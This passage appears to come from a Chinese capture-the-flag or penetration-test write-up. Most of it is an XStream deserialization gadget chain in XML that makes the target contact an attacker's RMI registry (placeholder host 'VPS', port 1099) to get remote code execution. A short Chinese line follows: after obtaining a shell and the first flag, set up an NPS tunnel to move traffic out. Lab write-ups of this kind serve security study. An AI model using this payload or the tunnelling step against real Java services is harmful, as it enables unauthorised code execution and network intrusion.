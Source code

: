 ```bash
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>VPS</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>VPS</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

拿到 shell 后，获取`第一个flag`后，自行做一个`NPS`隧道带出流量

[![](assets/1709193375-08c76212dcdbc08a8c12635e1328b7af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205159-fecf6bf0-d56e-1.png)
